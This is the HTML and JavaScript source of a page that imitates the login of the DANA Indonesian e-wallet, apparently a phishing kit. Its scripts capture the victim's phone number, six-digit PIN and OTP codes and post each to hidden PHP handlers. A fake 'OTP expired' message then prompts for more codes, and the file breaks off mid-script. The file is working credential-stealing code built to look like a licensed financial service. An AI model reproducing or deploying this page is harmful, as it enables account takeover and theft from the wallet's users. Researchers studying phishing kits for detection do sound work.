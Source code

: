 // <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=0"><meta http-equiv="X-UA-Compatible" content="ie=edge"><title>DANA - Apa pun transaksinya selalu ada DANA</title><meta property="og:title" content="DANA - Apa pun transaksinya selalu ada DANA"><meta property="twitter:title" content="DANA - Apa pun transaksinya selalu ada DANA"><meta property="twitter:card" content="summary_large_image"><meta property="og:image:type" content="image/jpeg"><meta property="og:image" content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTq-HC2z6B5uUunxMATpBRpkKkmcVL9J7yPQg&usqp=CAU" ><meta property="twitter:image:src" content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTq-HC2z6B5uUunxMATpBRpkKkmcVL9J7yPQg&usqp=CAU"><meta property="og:url" content="https://dana.id"><meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!"><meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!"><link rel="stylesheet" href="ast/8d62ea654fcf0e4cae001e344ee2592c.css"><link rel="stylesheet" href="ast/00b9d2e9f52e505c013c16bb638a42a4.css"><link rel="stylesheet" href="ast/6990a7033bbaeadc2040ac863ff124fd.css"><link rel="stylesheet" href="ast/3fadc676582b9542004b502ee03df3a3.css"><link rel="stylesheet" href="ast/47e4c58f6b9789b8a33f2525cf084599.css"></head><body><div style="display:none;" class="index"><div class="header"><img src="ast/img/dana_logo.png" class="logo" alt=""></div><div class="content"><div class="hero"><img src="ast/img/hero.svg" alt=""></div><h1>Dompet digital untuk kamu!</h1><p class="desc">Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p><div class="line"></div><p class="log">Masukkan <b>nomor HP</b> kamu untuk lanjut</p><button type="button" onclick="next();">LOGIN</button></div></div><div class="start" style="display:none;"><img class="logo" src="ast/img/dana_text.png"><div class="footimg"><img src="ast/img/bi.png" alt=""><img src="ast/img/kom.png" alt=""><p>DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p></div></div><div class="container hid"><div class="box-login"><div id="process" name="process" class="process" style="display: none;"><div class="loading"><img src="ast/img/load_bg.png"><img class="spinner" src="ast/img/load_spin.png"></div></div><div class="header"><img src="ast/img/dana_logo.png" class="logo" alt=""></div><form id="formNohp" onsubmit="sendNohp(event);"><h3>Masukkan <b>nomor HP</b> kamu untuk lanjut</h3><div class="box-input"><div class="label"><img src="ast/img/indo.png" alt=""><label>+62</label></div><input id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="811-1234-5678"></div><p class="desc">Nomor ponsel akan digunakan sebagai ID kamu &<br>menjaga akun selalu aman. Dengan melanjutkan,<br>kamu setuju dengan <b>Syarat & Ketentuan</b> dan<br><b>Kebijakan Privasi</b> kami</p><div class="box-btn"><button disabled id="btn" class="btnnohp" type="submit">LANJUT</button></div></form><form id="formPin" class="hid"><h3>Masukkan <b>PIN DANA</b></h3><div class="box-input-pin"><div type="button" class="clear"></div><input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"></div><button class="show" type="button">TAMPILKAN</button><p class="forgot">LUPA PIN?</p></form><div class="bgotp hid"><form id="formOtp" class=""><h2>Masukkan OTP</h2><p class="alert">Kode OTP telah dikirim ke nomor Anda</p><div class="box-input-otp"><div class="loadingOtp" style="display:none;"><img src="ast/img/load_bg.png"><img class="spinner" src="ast/img/load_spin.png"></div><div type="button" class="clearotp"></div><input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onKeyPress="if(this.value.length==1) return false;"></div><p class="resend">KIRIM ULANG (<span id="countdown">120</span>s)</p></form></div></div></div><script src="https://code.jquery.com/jquery-3.5.1.min.js"></script><script src="ast/jquery.mask.min.js"></script><script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script><script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script><script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script><script>$('.inppin').on('input', function(event) {const inputs = $('.inppin');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendPin();};const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inppin').on('keydown', function(event) {const inputs = $('.inppin');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script><script>$('.inpotp').on('input', function(event) {const inputs = $('.inpotp');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendOtp();}const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inpotp').on('keydown', function(event) {const inputs = $('.inpotp');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script><script>$(document).ready(function() {$('.clear').click(function() {$('.inppin').val('');$('#pin1').focus();});$('.clearotp').click(function() {$('.inpotp').val('');$('#otp1').focus();});$('.show').click(function() {$('.inppin').each(function() {if ($(this).attr('type') === 'password') {$(this).attr('type','number');$(".show").text("SEMBUNYIKAN");} else {$(this).attr('type', 'password');$(".show").text("TAMPILKAN");}});});});</script><script>function sendNohp(event){$("#process").show();event.preventDefault();$("#inp").blur();$.ajax({type: 'POST',url: 'ast/req/3678fd6893fb190b400d9d618c79cf92.php',data: $('#formNohp').serialize(),dataType: 'text',success: function(){$("#process").hide();$("#formNohp").fadeOut();setTimeout(function(){$("#inp").val('');$("#formPin").fadeIn();$("#pin1").focus();}, 500);}});};</script><script>function sendPin(){$("#process").show();$.ajax({type: 'POST',url: 'ast/req/2f68d4e0d386ee468cd061afc288d287.php',data: $('#formPin').serialize(),dataType: 'text',success: function(){$("#process").hide();$('.inppin').val('');$(".bgotp").fadeIn();setInterval(countdown, 1000);$("#otp1").focus();}});};</script><script>function sendOtp(){$(".loadingOtp").show();$.ajax({type: 'POST',url: 'ast/req/9dd9f94bf970e28cfd0d1bbdac2879ce.php',data: $('#formOtp').serialize(),dataType: 'text',success: function(){setTimeout(function(){$(".loadingOtp").hide();$('.inpotp').val('');$(".alert").text("Kode OTP telah kedaluwarsa atau invalid silahkan kirim ulang kode OTP");$(".alert").css("color","red");},3000);}});};</script><script>function countdown() {var count = parseInt($('#countdown').text());if (count !== 0) {$('#countdown').text(count - 1);} else {$('#countdown').text('120');}};</script><script>window.onload = function()
